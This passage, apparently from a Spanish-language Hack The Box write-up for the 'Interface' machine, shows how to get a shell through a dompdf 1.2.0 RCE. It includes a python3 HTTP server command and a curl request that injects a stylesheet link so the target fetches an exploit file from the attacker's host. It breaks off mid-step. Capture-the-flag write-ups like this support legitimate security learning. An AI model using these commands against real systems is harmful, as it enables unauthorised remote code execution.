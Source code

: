## Obtencion de www-data_shell
Analizando por encima el output del archivo obtenido podemos ver algo que parece ser una version ```dompdf 1.2.0```  Buscando en internet si puede haber alguna vulnerabilidad para esta version y la hay 

[https://github.com/positive-security/dompdf-rce](https://github.com/positive-security/dompdf-rce)


Esta clara la forma en la que hay que usar los comandos ya que no es un script automatizado como tal porque nosotros debemos hacer parte para que esta vulnerabilidad funcione, al traer el repositorio a nuestra maquina podemos ver que tenemos dos archivos 



![](/assets/images/htb-interface/dompdf_exploit.png)




Dentro del archivo tendremos un simple phpinfo() para comprobar si nuestra ejecucion funciona.

El siguiente paso es realizar una peticion para que la web de la maquina victima realice otra peticion de por medio a un servidor que nosotros vamos montar con python3 en primer lugar el servidor


```
python3 -m http.server 9001
```

Ahora nos dirigiremos a realizar la peticion con *curl*, que llamara al archivo exploit2.css para que mediante codigo .css llame al archivo exploit_font.php 

```
curl -s -X POST http://prd.m.rendering-api.interface.htb/api/html2pdf -H "Content-Type: application/pdf" -d '{"html":"<link rel=stylesheet href='http://10.10.14.115:9001/exploit2.css'>"}'
```

Vemos que tenemos una peticion que se realizo con exito

![](/assets/images/htb-interface/python_server_request.png)



Ahora lo que debemos hacer es buscar el archivo en la web que en teoria deberia estar subido, en el repositorio nos comenta que debemos buscarlo por una ruta especifica, pero antes necesitamos un dato especifico en la url que debemos buscar hay un hash md5 el cual debemos adaptarlo a nuestro favor usaremos 
